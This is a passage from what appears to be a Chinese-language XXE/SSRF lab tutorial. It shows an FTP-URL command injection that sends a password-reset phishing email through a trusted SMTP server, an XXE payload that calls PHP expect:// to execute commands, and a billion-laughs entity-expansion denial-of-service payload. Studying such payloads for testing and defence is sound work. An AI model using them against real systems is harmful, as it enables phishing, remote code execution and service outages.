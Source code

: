 当FTP客户端使用此URL连接时，以下命令将会被发送给VULNERABLESYSTEM.com上的邮件服务器：

**示例代码：**

```plain
ftp://a
EHLO a
MAIL FROM: <support@VULNERABLESYSTEM.com>
RCPT TO: <victim@gmail.com>
DATA
From: support@VULNERABLESYSTEM.com
To: victim@gmail.com
Subject: Reset your password
We need to confirm your identity. Confirm your password here: http://PHISHING_URL.com
.
QUIT
:support@VULNERABLESYSTEM.com:25
```

这意味着攻击者可以从从受信任的来源发送钓鱼邮件（例如：帐户重置链接）并绕过垃圾邮件过滤器的检测。除了链接之外，甚至我们也可以发送附件。

### **实验八：其他：**

除了上面实验中的一些常见利用以外还有一些不是很常用或者比较鸡肋的利用方式，为了完整性我在这一节简单的说一下：

#### **1.PHP expect RCE**

由于 PHP 的 expect 并不是默认安装扩展，如果安装了这个expect 扩展我们就能直接利用 XXE 进行 RCE 

**示例代码：**

```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]> 
<dir> 
  <file>&cmd;</file> 
</dir> 
```

#### **2. 利用 XXE 进行 DOS 攻击**

**示例代码：**

```xml
<?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
     <lolz>&lol9;</lolz>
```

